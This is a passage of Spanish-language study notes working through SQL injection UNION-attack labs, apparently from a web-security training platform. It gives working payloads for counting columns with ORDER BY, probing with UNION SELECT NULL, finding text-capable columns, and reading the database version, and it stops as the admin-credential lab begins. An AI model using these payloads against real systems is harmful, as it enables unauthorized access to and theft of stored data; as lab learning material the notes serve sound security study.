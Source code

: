```mysql
' order by 2-- -
```

Ahora sabiendo los campos que tiene, tendremos que representar las columnas para que se nos muestre la informacion...

```mysql
' union select 1,2-- -
```

o

```mysql
' union select NULL,NULL-- -
```

Esto utlimo se pone cuando la URL o el servidor no admite numeros para este tipo de inyecciones, por lo que se le pone un `NULL` para que no haya "nada" pero que aun asi te lo muestre...

De forma representada en una base de datos de `mysql` seria de la siguiente manera...

```mysql
select table1,table2 from users where table1 = 'input' union select NULL,NULL;-- -';
```

o para determinal una version o base de datos...

```mysql
select table1,table2 from users where table1 = 'input' union select version(),database();-- -';
```

Con esto ya sabriamos las columnas que tiene y estaria hecho

### Lab: SQL Injection UNION attack, finding a columns containing text

En este caso el objetivo es ponernos la cadena 'mFdsaD' en uno de los campos de las columnas (Entendiendo que ya sabemos que hay 3 columnas o campos...) tienes que ir probando sucesivamente hasta que en uno de los campos te deje inyectarle eso y con eso sabremos que ese campo en concreto es vulnerable a inyecciones...

```mysql
' union select NULL,'mFdsaD',NULL-- -
```

Con esto ya habriamos logrado con exito inyectar esa palabra en uno de los campos siendo 1 solo el unico que deja ser inyectable...

Sabiendo que es el campo 2 el que se puede inyectar probariamos ya diferentes cosas como por ejemplo listar la version...

```mysql
' union select NULL,@@version,NULL-- -
```

### Lab: SQL Injection UNION attack, retrieving data from other tables

Como el objetivo de esta otra practica es averiguar el user y password del usuario admin, haremos lo siguiente...
